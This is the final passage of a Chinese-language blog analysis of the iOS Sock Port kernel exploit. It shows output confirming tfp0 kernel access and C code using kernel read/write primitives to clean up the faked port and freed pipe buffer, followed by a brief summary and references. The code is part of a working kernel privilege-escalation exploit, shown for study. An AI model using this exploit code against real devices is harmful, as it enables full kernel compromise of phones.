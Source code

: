 效果蛮好

```
[+] tfp0: 0x6203
[*] allocated: 0xfffffff008e1f000
[*] read back: 0x4141414141414141
```

## 10. 清理内存环境

从`is_table`中删除东拼西凑的Port，然后删除`fds`对应的内核缓冲区，它早就被释放了，还有一些管道句柄，IOSurface都关掉

```c
// 获取is_table
uint64_t task_addr = rk64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
uint64_t itk_space = rk64(task_addr + koffset(KSTRUCT_OFFSET_TASK_ITK_SPACE));
uint64_t is_table = rk64(itk_space + koffset(KSTRUCT_OFFSET_IPC_SPACE_IS_TABLE));

// 获取索引
uint32_t port_index = our_port >> 8;
const int sizeof_ipc_entry_t = 0x18;

// 清空
wk32(is_table + (port_index * sizeof_ipc_entry_t) + 8, 0);
wk64(is_table + (port_index * sizeof_ipc_entry_t), 0);

// 这个pipe_buffer已经释放，这里指针也要清空
wk64(fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER), 0); // freed already via mach_msg()

if (fds[0] > 0)  close(fds[0]);
if (fds[1] > 0)  close(fds[1]);
if (port_fds[0] > 0)  close(port_fds[0]);
if (port_fds[1] > 0)  close(port_fds[1]);

free((void *)fakeport);
deinit_IOSurface();
return new_tfp0;
```

## 11. 总结

这篇文章只能说是讲了个大概，很多细节都没有深究，比如堆分配机制，哪些是统一实现的，哪些是单独实现的，结构体偏移计算，伪造Port时各种结构体成员以什么数据进行赋值...，这些问题我也一知半解的，所以就留着后面漏洞分析的多了，逐渐补齐

## References

1.  [Sock Port 漏洞解析（一）UAF 与 Heap Spraying](http://blog.asm.im/2019/11/17/Sock-Port-漏洞解析（一）UAF-与-Heap-Spraying/)
2.  [Sock Port 漏洞解析（二）通过 Mach OOL Message 泄露 Port Address](http://blog.asm.im/2019/11/24/Sock-Port-漏洞解析（二）通过-Mach-OOL-Message-泄露-Port-Address/)
3.  [Sock Port 漏洞解析（三）IOSurface Heap Spraying](http://blog.asm.im/2019/12/01/Sock-Port-漏洞解析（三）IOSurface-Heap-Spraying/)
4.  [Sock Port 漏洞解析（四）The tfp0 !](http://blog.asm.im/2019/12/08/Sock-Port-漏洞解析（四）The-tfp0/)
5.  [iOS12-2 越狱漏洞分析](https://cloud.tencent.com/developer/article/1475737)
6.  https://raw.githubusercontent.com/jakeajames/sock_port/master/sock_port.pdf
7.  https://www.slideshare.net/i0n1c/cansecwest-2017-portal-to-the-ios-core
8.  [Pegasus内核漏洞及PoC分析](http://4ch12dy.site/2017/05/01/Pegasus%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%8F%8APoC%E5%88%86%E6%9E%90/Pegasus%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%8F%8APoC%E5%88%86%E6%9E%90/)
9.  [pegasus分析](https://www.dazhuanlan.com/2019/12/14/5df3cd57766c5/)
10.  [iOSurfaceRootUserClient Port UAF](http://open.appscan.io/article-1216.html)
